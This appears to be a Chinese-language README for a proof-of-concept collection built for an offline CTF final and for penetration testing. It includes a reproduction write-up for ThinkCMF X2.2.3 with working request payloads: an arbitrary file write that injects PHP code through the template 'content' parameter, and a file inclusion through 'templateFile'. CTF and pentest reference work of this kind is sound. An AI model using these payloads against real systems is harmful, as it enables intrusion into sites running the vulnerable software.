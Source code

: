 # poc-hub
此项目源于要参加一场线下的CTF决赛，由于断网，故需要大量本地poc，考虑到也可为日后的渗透测试工作提供便利  
当前仓库没有漏洞分析只有POC

漏洞复现模板如下：
```
# 0x00 软件介绍
基于ThinkPHP 3.2.3，让开发者更方便的一款开发框架

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：ThinkCMF X2.2.3

# 0x02 环境搭建
靶机环境：win10_1909_pro_x64_zh-chs

下载ThinkCMF X2.2.3，直接放到phpstudy的目录下，访问/ThinkCMFX/，根据提示操作即可

# 0x03 利用条件
无

# 0x04 影响版本
ThinkCMF X1.6.0  
ThinkCMF X2.1.0  
ThinkCMF X2.2.0  
ThinkCMF X2.2.1  
ThinkCMF X2.2.2  
ThinkCMF X2.2.3

# 0x05 漏洞复现
攻击环境：win10_1909_pro_x64_zh-chs（在英文的kali系统下访问会提示“just a demo for multi lang user! LANG IS en-us;”）

任意文件写入漏洞复现：  
浏览器下访问  
```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```
访问test.php，可以看到phpinfo已经加载出来
![image](./0.png)

任意文件包含漏洞复现：  
浏览器访问  
```
?a=display&templateFile=README.md
```
可以看到成功包含了README.md
![image](./1.png)

# 0x06 踩坑记录
坑1：  
搭建环境时，第三步报错，提示“thinkcmf 安装报错 Driver.class.php 　LINE: 350”，执行“drop database thinkcmf”后，重新安装成功，原因未知

# 0x07 参考链接
无
```
